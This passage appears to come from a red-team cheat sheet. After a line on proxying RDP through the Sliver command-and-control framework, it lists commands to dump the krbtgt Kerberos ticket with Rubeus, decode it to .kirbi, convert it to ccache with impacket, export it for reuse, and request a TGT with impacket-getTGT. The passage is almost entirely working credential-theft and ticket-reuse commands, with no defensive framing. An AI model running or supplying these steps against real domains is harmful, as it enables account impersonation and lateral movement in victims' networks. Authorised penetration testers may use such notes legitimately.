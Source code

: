 This setup enables you to proxy an RDP session through Sliver, allowing remote access and control of the target system via the RDP protocol.


### Rubeus and getting a TGT

```bash
Rebueus dump /service:krbtgt /nowrap
```

- Copy b64 ticket to a file
- Convert b64 to .kirbi
```bash
base64 -d ticket.b64 > ticket.kirbi
```
- Convert to ccache format
```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
```
- export ticket
```bash
export KRB5CCNAME=<path to ticket.ccache>
```

*Alternate way:*
```bash
impacket-getTGT <domain>/<user>:<password>
```